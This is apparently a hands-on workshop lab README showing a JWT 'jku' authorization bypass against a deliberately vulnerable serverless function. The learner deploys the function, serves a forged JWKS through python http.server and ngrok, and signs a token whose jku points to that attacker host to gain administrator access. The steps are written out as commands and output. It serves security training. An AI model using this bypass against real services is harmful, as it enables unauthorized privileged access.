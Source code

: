 # JWT - JKU Authorization Bypass

**Note:** If you have not setup your aws cli follow [AWS-CLI-Configuration](aws-configure/README.md) under the `Setup` section*

* Step 1: In your image, navigate over to `/root/labs/Serverless-Workshop/`

```commandline
cd /root/labs/Serverless-Workshop/
```

* Step 2: Run `pip3 install pipenv`

```commandline
pip3 install pipenv
```

* Step 3: Run `pipenv install`

```commandline
pipenv install
```

```commandline
pipenv install jwcrypto
```

* Step 4: `pipenv shell`

```commandline
pipenv shell
``` 

* Step 5: In your image, navigate over to `/root/labs/Serverless-Workshop/JWT-JWK`

```commandline
cd /root/labs/Serverless-Workshop/JWT-JWK
```

* Step 6: Run `sls plugin install -n serverless-python-requirements`

```commandline
sls plugin install -n serverless-python-requirements
```

* Wait for instructor to explain the contents of the lab
* Step 7: Install a package for this to work `npm install -g jwt-cli`

```commandline
npm install -g jwt-cli
```

* Step 8: Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/JWT-JWK/serverless.yml)

* Step 9: Deploy the function with the command `sls deploy`

```commandline
sls deploy
```

* Wait for the function to deploy completely

* Step 10: Initialize the Program with the following command 

```bash
http GET https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/init
```

you should see an output like this

```bash
    HTTP/1.1 200 OK
    Connection: keep-alive
    Content-Length: 73
    Content-Type: application/json
    Date: Fri, 26 Jul 2019 11:56:09 GMT
    Via: 1.1 706c647442c234a140558b049b967cc5.cloudfront.net (CloudFront)
    X-Amz-Cf-Id: GPaQyO3YdDda1NBe5hqqZ5a7Mpdf5NgZxm2kjQm1TQk76V2cWQ9m_Q==
    X-Amz-Cf-Pop: BLR50-C1
    X-Amzn-Trace-Id: Root=1-5d3aea58-c194ed1820098bd0973e3f08;Sampled=0
    X-Cache: Miss from cloudfront
    x-amz-apigw-id: dbmNwEp0PHcFY8Q=
    x-amzn-RequestId: 5a8fc007-af9c-11e9-b076-b3cc7c0d1d4b
    
    {
        "url": "https://jwk-resources-1564139712929.s3.amazonaws.com/jwks.json"
    }
```
* Step 11: Now, obtain a token from the system by logging in

```bash
http POST https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/login user=admin password=admin
```

you should see output like this

```json
{
    "token": "eyJhbGciOiJSUzI1NiIsImprdSI6Imh0dHBzOi8vandrLXJlc291cmNlcy0xNTY0MTM5NzEyOTI5LnMzLmFtYXpvbmF3cy5jb20vandrcy5qc29uIn0.eyJ1c2VyIjoidXNlciJ9.hsA7nYpgplSmhLLhFX18cJTO2HGJYeqMDT8OQe1IZRWseH9ZDOiSa1QHQvSkhmrVSB8h_0Cw6nCj_v5JblnyUC-peY1nWzDAD1xbZCfY0PDUXaq-mKOxfr1-X0Uotc-UabTISGcciLl3DJvRspJa928xNrMM5JRIpYX3X5UpiucmUcbBtudYn-KPgVJVbAvCxB_cAGTi5IWT7bDMnO5-ofcL29xjo-BYhkX9JVPG3xg6yfKEOTSgFjLq6dbldu_sNX-KSwohKKRVkhIkSQOpIdUcw8u9BMqJ3tSE8fgugEZfu5oGqciz9jo_CRwahkEjkZ8XCc4QtfO_TiL63sDnCA",
    "user": "user"
}
```

* Step 12: Copy the `token` value and run `jwt <copied token value>`

```commandline
jwt <copied token value>
```

or you can check [here](https://jwt.io/)

* You should see something like this

```bash
Header
{
  "alg": "RS256",
  "jku": "https://jwk-resources-1564139712929.s3.amazonaws.com/jwks.json"
}

Payload
{
  "user": "user"
}

```

* Step 13: Now, open another two tabs of your lab image. You have now a total of three tabs. Let's call the current tab, **Tab 1**

In the **Tab 2**: 

* Step 14: In your image, navigate over to `/root/labs/Serverless-Workshop/JWT-JWK`

```commandline
cd /root/labs/Serverless-Workshop/JWT-JWK
```

* Step 15: Run: `python -m http.server`

```commandline
python -m http.server
```

In the **Tab 3**:

* Step 16: Install *ngrok* `wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip`

```commandline
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
```
* Step 17: Run `apt-get install unzip`

```commandline
apt-get install unzip
```

* Step 18: `unzip` the *ngrok* `unzip ngrok-stable-linux-amd64.zip`

```commandline
unzip ngrok-stable-linux-amd64.zip
```

* Step 19: Run `./ngrok http 8000`

```commandline
./ngrok http 8000
```

```bash
Session Status                online
Session Expires               7 hours, 10 minutes
Update                        update available (version 2.3.34, Ctrl-U to update
Version                       2.2.8
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://f8ccd11d.ngrok.io -> localhost:8000
Forwarding                    https://f8ccd11d.ngrok.io -> localhost:8000
```

Back in **Tab 1**:
* Step 20: Run `python token_gen.py https://f8ccd11d.ngrok.io` with copied *ngrok*  https `Forwarding` value 

```commandline
python token_gen.py https://<ngrok https forwarding value>.ngrok.io
```
 
* Step 21: Copy the generated token starting `ey....`

* Step 22: Run
 
```bash
http GET https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/jwk Authorization:<Copied Token>
```

**Note:** You should see a response, that you are administrator


### Teardown

* Step 23: **Tab 1**, navigate over to `/root/labs/Serverless-Workshop/JWT-JWK`

```commandline
cd /root/labs/Serverless-Workshop/JWT-JWK
```

* Step 24: Run `sls remove` to remove stack

```commandline
sls remove --force
```

* Step 25: Deactivate `pipenv` using `deactivate` command

```commandline
deactivate
```

```commandline
exit
```

* Step 26: **Tab 2** Run `ctrl+c` and close tab

* Step 27: **Tab 3** Run `ctrl+c` and close tab
